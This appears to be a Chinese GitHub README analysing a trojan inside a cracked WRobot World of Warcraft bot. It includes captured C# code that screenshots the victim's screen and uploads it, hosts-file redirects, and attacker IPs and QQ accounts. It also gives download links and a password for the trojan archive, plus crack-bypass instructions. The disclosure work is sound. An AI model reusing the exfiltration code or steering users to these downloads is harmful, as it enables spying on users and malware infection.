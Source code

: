 # Wrobot 木马

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

`木马传播涉事QQ号 8171974 287228864 401979123  QQ群 6456089 传播时间 2017-2023 活跃至今`

<details>
<summary><code><strong>「点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/5.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/6.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/7.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/9.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 注意此文件为木马
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>

当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 获取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上
```
#==== 下面两行是破解版WR转向服务器IP ====
43.252.229.37 tumadre.000webhostapp.com
127.0.0.1 download.wrobot.eu
```

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「点击查看截取信息」</strong></code></summary>
  
```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

### 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

### 分析
检查过后发现 WRobotWOTLK\Bin\*.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 *.dll 内几处代码后正常启动。

此破解程序是用于魔兽世界私人服务器，此类游登陆器大多会被杀毒软件提示病毒而让玩家关闭杀毒，破解程序通过设置多个障碍来在一个小范围内寻找合适的目标并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。

```
域名: wrobot_free.kissdjmax.com	 IP: 43.252.229.37  托管: Cloudie Limited
域名: wrobot_vip.kissdjmax.com	 IP: 103.96.74.226  托管: Cloudie Limited
```

此软件涉及屏幕截图和通过Web请求发送图像数据，这绝不是正常软件会做的事。

### 结论
在火绒安全提交了样本后，由火绒安全人工认定此破解程序为木马，处理结果 `https://bbs.huorong.cn/forum.php?mod=viewthread&tid=122996`

```
病毒名称：Trojan/Agent.bbp
病毒ID：6D2ACBF71A377760
病毒路径：C:\Users\game\AppData\Local\Temp\Rar$DRb2668.5172\破解版WRobot验证端.exe
操作类型：修改 
操作结果：已处理
```
https://user-images.githubusercontent.com/127265295/225115946-6562ab47-a3ad-4b4f-a5bd-0c086a57b625.mp4

### 设置本地验证与去掉验证直接使用
为避免更多人受害，通过2种方法可以不需要通过外部联网验证使用此软件。注意：下方网盘中全部文件来源于 QQ群 6456089 我不保证群管理员是否还添加了其他隐藏的木马，如果你想要使用请确保在虚拟机内运行。此网盘文件中包含2种验证方法的高清视频，过程很简单。

#### 「方法1」

https://user-images.githubusercontent.com/127265295/227767617-3db09c4e-4010-4a35-85e1-8ff17a42f501.mp4


#### 「方法2」

https://user-images.githubusercontent.com/127265295/227767634-607cfbc0-1a06-4508-8d1d-17fda18d6ae6.mp4

```
已知木马已删除,但不排除还有。下面是全文件下载地址，存档压缩文件解压密码：内含木马病毒，勿信任何广告，虚拟机内使用

移动网盘 https://caiyun.139.com/m/i?075CuXuSUI4MY  提取码:eyPa
百度网盘 https://pan.baidu.com/s/18piFxYvKNR2M4T0NvNqJbw?pwd=zvbs 提取码：zvbs

谷歌网盘 https://drive.google.com/drive/folders/1--JXH7XOqQuKQRFP9jTQStCuIprzlP6Z?usp=drive_link
PikPak  https://mypikpak.com/s/VN_OAadRObxz_H4E6MSfZHCCo1 密码: u36a

```
<details>
<summary><code><strong>「查看截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/Screenshot_2023-03-14_13-02-20.png?raw=true" width=30%  />
</details>

### 所有文件都在此存储库内可自行下载检查,注意此存储库的有不安全的文件,请在虚拟机内查看.带密码的压缩包内的文件已认定为木马

